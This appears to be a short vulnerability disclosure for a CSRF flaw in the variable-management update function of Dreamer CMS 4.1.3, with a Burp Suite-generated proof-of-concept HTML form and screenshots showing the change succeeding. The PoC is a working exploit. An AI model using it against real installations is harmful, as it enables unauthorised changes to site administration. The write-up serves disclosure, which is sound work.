 Target is https://github.com/iteachyou-wjn/dreamer_cms

version:4.1.3

There is a csrf vulnerability in the variable management modification function


![image](https://github.com/B1u3f331/CVE/assets/28138784/210af08e-8b91-4c1f-9e28-e825ac9ff99a)



click and Create a csrf poc

![image](https://github.com/B1u3f331/CVE/assets/28138784/fd306bc8-72fe-4a1a-808e-4eb9025664c8)


```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.186:8888/admin/variable/update" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="id" value="1712488872566063104" />
      <input type="hidden" name="itemName" value="cs1" />
      <input type="hidden" name="info" value="cs" />
      <input type="hidden" name="value" value="cs" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>

```

Successfully modified

![image](https://github.com/B1u3f331/CVE/assets/28138784/acd85627-8908-4d2e-a5b1-a3e9398b342d)

